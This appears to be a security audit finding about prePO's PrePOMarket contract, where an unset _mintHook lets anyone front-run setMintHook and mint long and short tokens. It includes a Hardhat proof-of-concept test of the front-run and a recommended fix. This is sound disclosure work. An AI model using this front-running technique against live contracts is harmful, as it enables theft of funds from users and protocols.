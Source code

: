 The problem is, that as long as the **\_mintHook** is not set via **setMintHook**, everyone can use the mint function and mint short and long tokens.
At the moment the **\_mintHook** is not set in the contructor of PrePOMarket and so the transaction that will set the **\_mintHook** can be front run to mint short and long tokens for the attacker.

### Proof of Concept

<https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L68>

<https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L109>

This test shows how an attacker could frontrun the **setMintHook** function:

```node
  describe('# mint front run attack', () => {
    let mintHook: FakeContract<Contract>
    beforeEach(async () => {
      prePOMarket = await prePOMarketAttachFixture(await createMarket(defaultParams))
    })
    it('user can frontrun the set setMintHook to mint long and short tokens', async () => {
      
      mintHook = await fakeMintHookFixture()
      await collateralToken.connect(deployer).transfer(user.address, TEST_MINT_AMOUNT.mul(2))
      await collateralToken.connect(user).approve(prePOMarket.address, TEST_MINT_AMOUNT.mul(2))

      // we expect the mintHook to always revert
      mintHook.hook.reverts()

      // attacker frontruns the setMintHook, even we expect the mintHook to revert, we will mint
      await prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)

      // governance sets the mintHook
      await prePOMarket.connect(treasury).setMintHook(mintHook.address)

      // as we expect minthook to revert if not called from treasury, it will revert now
      mintHook.hook.reverts()
      await expect(prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)).to.be.reverted

      // we should now have long and short tokens in the attacker account
      const longToken = await LongShortTokenAttachFixture(await prePOMarket.getLongToken())
      const shortToken = await LongShortTokenAttachFixture(await prePOMarket.getShortToken())
      expect(await longToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
      expect(await shortToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
    })
  })
```

### Recommended Mitigation Steps

To prevent the front-running, the `\_mintHook` should be set in the deployment in the PrePOMarketFactory.
